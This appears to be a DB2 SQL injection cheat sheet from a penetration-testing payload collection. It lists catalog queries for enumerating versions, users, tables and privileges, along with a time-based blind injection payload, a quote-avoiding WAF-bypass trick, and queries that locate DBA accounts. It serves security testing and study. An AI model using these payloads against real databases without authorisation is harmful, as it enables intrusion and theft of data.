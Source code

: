 # DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments. 


## Summary

* [DB2 Comments](#db2-comments)
* [DB2 Default Databases](#db2-default-databases)
* [DB2 Enumeration](#db2-enumeration)
* [DB2 Methodology](#db2-methodology)
* [DB2 Error Based](#db2-error-based)
* [DB2 Blind Based](#db2-blind-based)
* [DB2 Time Based](#db2-time-based)
* [DB2 WAF Bypass](#db2-waf-bypass)
* [DB2 Accounts and Privileges](#db2-accounts-and-privileges)
* [References](#references) 


## DB2 Comments	

| Type                       | Description                       |
| -------------------------- | --------------------------------- |
| `--`                       | SQL comment                       |


## DB2 Default Databases

| Name        | Description                                                           |
| ----------- | --------------------------------------------------------------------- |
| SYSIBM      | Core system catalog tables storing metadata for database objects.     |
| SYSCAT      | User-friendly views for accessing metadata in the SYSIBM tables.      |
| SYSSTAT     | Statistics tables used by the DB2 optimizer for query optimization.   |
| SYSPUBLIC   | Metadata about objects available to all users (granted to PUBLIC).    |
| SYSIBMADM   | Administrative views for monitoring and managing the database system. |
| SYSTOOLs    | Tools, utilities, and auxiliary objects provided for database administration and troubleshooting. |


## DB2 Enumeration

| Description      | SQL Query |
| ---------------- | ----------------------------------------- |
| DBMS version     | `select versionnumber, version_timestamp from sysibm.sysversions;` |
| DBMS version     | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo` |
| DBMS version     | `select getvariable('sysibm.version') from sysibm.sysdummy1` |
| DBMS version     | `select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo` |
| DBMS version     | `select service_level,bld_level from sysibmadm.env_inst_info` |
| Current user     | `select user from sysibm.sysdummy1` |
| Current user     | `select session_user from sysibm.sysdummy1` |
| Current user     | `select system_user from sysibm.sysdummy1` |
| Current database | `select current server from sysibm.sysdummy1` |
| OS info          | `select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` |


## DB2 Methodology


| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List databases   | `SELECT distinct(table_catalog) FROM sysibm.tables` |
| List databases   | `SELECT schemaname FROM syscat.schemata;` |
| List columns     | `SELECT name, tbname, coltype FROM sysibm.syscolumns` |
| List tables      | `SELECT table_name FROM sysibm.tables` |
| List tables      | `SELECT name FROM sysibm.systables` |
| List tables      | `SELECT tbname FROM sysibm.syscolumns WHERE name='username'` |


## DB2 Error Based

```sql
-- Returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from sysibm.tables

-- Same but without repeated elements
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)

-- Returns all in one xml-formatted string.
-- May need CAST(xml2clob(… AS varchar(500)) to display the result.
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables 
```


## DB2 Blind Based

| Description      | SQL Query |
| ---------------- | ------------------------------------------ |
| Substring        | `select substr('abc',2,1) FROM sysibm.sysdummy1` |
| ASCII value      | `select chr(65) from sysibm.sysdummy1`     |
| CHAR to ASCII    | `select ascii('A') from sysibm.sysdummy1`  |
| Select Nth Row   | `select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only` |
| Bitwise AND      | `select bitand(1,0) from sysibm.sysdummy1` |
| Bitwise AND NOT  | `select bitandnot(1,0) from sysibm.sysdummy1` |
| Bitwise OR       | `select bitor(1,0) from sysibm.sysdummy1`  |
| Bitwise XOR      | `select bitxor(1,0) from sysibm.sysdummy1` |
| Bitwise NOT      | `select bitnot(1,0) from sysibm.sysdummy1` |


## DB2 Time Based

Heavy queries, if user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 

```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```


## DB2 WAF Bypass

### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```


## DB2 Accounts and Privileges

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List users | `select distinct(grantee) from sysibm.systabauth` |
| List users | `select distinct(definer) from syscat.schemata` |
| List users | `select distinct(authid) from sysibmadm.privileges` |
| List users | `select grantee from syscat.dbauth` |
| List privileges | `select * from syscat.tabauth` |
| List privileges | `select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies` |
| List DBA accounts | `select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'` |
| List DBA accounts | `select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = 'Y' or SYSADMAUTH = 'G'` |
| Location of DB files | `select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'` |


## References

- [DB2 SQL injection cheat sheet - Adrián - May 20, 2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
- [Pentestmonkey's DB2 SQL Injection Cheat Sheet - @pentestmonkey - September 17, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)